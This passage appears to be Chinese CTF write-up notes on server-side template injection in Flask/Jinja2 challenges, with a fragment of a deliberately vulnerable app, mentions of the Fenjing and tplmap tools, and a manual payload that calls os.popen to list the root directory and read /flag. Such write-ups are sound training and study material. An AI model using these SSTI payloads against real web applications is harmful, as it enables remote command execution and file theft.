 ```python
    ''' % name

    return render_template_string(template)

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)
```



2. 利用工具--fenjing

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1753188160076-ce84e70f-b33a-424a-8906-21f91f19bdc7.png)



#### [安洵杯 2020]Normal SSTI
1. 使用Fenjing

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1753188160101-a588a080-3f7c-4a45-89ac-c99c1282479d.png)



#### [HNCTF 2022 WEEK3]ssssti
1. 使用使用Fenjing

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1753188160235-59de95c9-1205-423e-8e36-0a205215062b.png)



#### CTFSHOW----web361
##### 手工
```plain
?name={{%20config.__class__.__init__.__globals__[%27os%27].popen(%27ls%20/%27).read()%20}}

###
Hello
app bin boot dev etc flag home lib lib64 media mnt opt proc root run sbin srv start.sh sys tmp usr var
###
```

打开文件

```plain
?name={{%20config.__class__.__init__.__globals__[%27os%27].popen(%27cat%20/flag%27).read()%20}}
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1753188160046-e561750c-1c26-4b73-bd81-94c16b2eb1c6.png)

##### 使用Tplmap
```bash
python2 tplmap.py -u 'https://727c5e75-4ba9-40ce-8fe3-dafdafd6990d.challenge.ctf.show/?name'
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1753188160120-a4c89a82-5c93-4abf-ab54-3becdb814d0c.png)
